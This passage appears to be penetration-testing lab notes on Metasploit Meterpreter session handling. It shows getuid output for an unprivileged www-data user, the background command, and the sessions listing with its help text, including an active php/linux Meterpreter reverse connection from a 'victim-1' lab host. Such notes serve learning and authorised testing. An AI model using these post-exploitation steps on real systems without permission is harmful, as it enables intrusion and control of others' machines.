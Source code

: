 ```
getuid
```

```bash
Server username: www-data (33)
```

- Unprivileged session with the `www-data` user

### background

```bash
background
```

```bash
# Puts the session in background
```

- Keyboard shortcut: `CTRL+Z`

### sessions

```bash
sessions
```

```bash
Active sessions
===============
  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.170.151.2:4444 -> 192.170.151.3:51678 (192.170.151.3)

# Manage Active MSF sessions
```

```bash
sessions -h
```

```bash
OPTIONS:
    -C <opt>  Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S <opt>  Row search filter.
    -c <opt>  Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n <opt>  Name or rename a session by ID
    -q        Quiet mode
    -s <opt>  Run a script or module on the session given with -i, or all
    -t <opt>  Set a response timeout (default: 15)
    -u <opt>  Upgrade a shell to a meterpreter session on many platforms
    -v        List all active sessions in verbose mode
    -x        Show extended information in the session table
```
